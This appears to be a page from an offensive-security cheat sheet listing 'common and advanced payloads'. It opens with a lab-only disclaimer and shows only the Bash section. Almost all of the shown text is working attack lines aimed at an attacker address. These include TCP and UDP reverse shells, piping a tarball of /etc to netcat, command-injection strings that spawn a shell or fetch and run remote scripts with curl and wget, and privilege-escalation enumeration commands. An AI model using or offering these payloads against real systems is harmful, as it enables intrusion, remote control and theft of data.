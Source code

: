 ```yaml
---
icon: chevron-up
---
```


# Common & Advanced Payloads

## **Common & Advanced Payloads — Bash, Python, PHP, PowerShell**

> ⚠️ Educational, controlled, and authorized environments only.\
> These payloads are for **security research, exploit development, and lab training** — **never deploy on real targets** without explicit written permission.\
> Everything below is designed for CTFs, malware analysis, and cyber range use.

***

### I. 🧩 Bash Payloads — The Unix Core Arsenal

#### 🔹 Reverse Shells (TCP)

```bash
bash -i >& /dev/tcp/10.10.14.2/4444 0>&1
bash -c 'exec bash -i &>/dev/tcp/10.10.14.2/4444 <&1'
```

#### 🔹 Reverse UDP Shell

```bash
bash -i >& /dev/udp/10.10.14.2/4444 0>&1
```

#### 🔹 File Exfiltration

```bash
tar czf - /etc | nc 10.10.14.2 9001
```

#### 🔹 Command Injection Payloads

```bash
; nc -e /bin/sh 10.10.14.2 4444 #
&& curl http://10.10.14.2/shell.sh | bash
`wget http://10.10.14.2/x.sh -O-|bash`
```

#### 🔹 Privilege Escalation Helper

```bash
find / -perm -4000 -type f 2>/dev/null
sudo -l
cat /etc/crontab
```
